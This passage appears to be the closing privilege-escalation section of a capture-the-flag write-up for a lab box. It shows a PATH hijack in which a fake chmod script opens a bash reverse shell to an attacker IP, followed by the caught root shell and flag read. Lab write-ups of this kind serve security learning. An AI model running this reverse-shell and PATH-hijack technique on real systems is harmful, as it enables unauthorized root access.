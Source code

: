 ### Path hijack

To get `root` privileges, the first step is to create a fake `chmod`, in this case to return a reverse shel to the attacker machine. After that we need to modify user's PATH variable so we can call our own chmod file instead of the one previously installed. The steps below achieve the tasks mentioned:

```bash
dexter@laboratory:~$ echo '#!/bin/bash' > /dev/shm/chmod
dexter@laboratory:~$ echo 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1' >> /dev/shm/chmod
dexter@laboratory:~$ chmod +x /dev/shm/chmod
dexter@laboratory:~$ PATH=/dev/shm:$PATH
dexter@laboratory:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

After starting the listener in the port defined in the fake chmod binary (`nc -lnvp 4443`), executed `docker-security` which gave us the very expected root access, allowing us to read the root flag.

```bash
$ nc -lnvp 4443                                                                                             
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.216] 44754
root@laboratory:~# id  
id
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
root@laboratory:~# cat /root/root.txt
cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed this box resolution.

See you in the next post soon! :smiley:
